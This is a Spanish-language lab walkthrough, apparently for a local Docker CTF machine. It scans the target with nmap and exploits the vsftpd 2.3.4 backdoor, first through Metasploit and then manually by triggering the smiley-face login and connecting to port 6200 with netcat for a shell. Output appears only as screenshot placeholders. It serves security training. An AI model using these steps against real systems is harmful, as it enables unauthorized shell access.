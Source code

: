 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![[Pasted image 20250130162053.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250130162149.png]]

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search vsftpd
```

![[Pasted image 20250130162511.png]]

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

![[Pasted image 20250130162525.png]]

```
show options
```

![[Pasted image 20250130162540.png]]

```
set RHOSTS 172.17.0.2
```

![[Pasted image 20250130162555.png]]

```
show options
```

![[Pasted image 20250130162608.png]]

```
exploit
```

![[Pasted image 20250130162625.png]]

```
/bin/bash -i
```

![[Pasted image 20250130162636.png]]

```
whoami
```

![[Pasted image 20250130162654.png]]

Otra forma de explotar:

```
ftp 172.17.0.2
```

![[Pasted image 20250130162943.png]]

```
hola:)
```

![[Pasted image 20250130163018.png]]

```
'blank'
```

![[Pasted image 20250130163104.png]]

Comprobamos que se ha abierto el puerto 6200:

```
nmap -sV -sC -sS -T 5 -n -Pn -p 6200 172.17.0.2
```

![[Pasted image 20250130163147.png]]

Nos conectamos al puerto con **Netcat**:

```
nc 172.17.0.2 6200
```

![[Pasted image 20250130163304.png]]

```
/bin/bash -i
```

![[Pasted image 20250130163320.png]]

```
whoami
```

![[Pasted image 20250130163330.png]]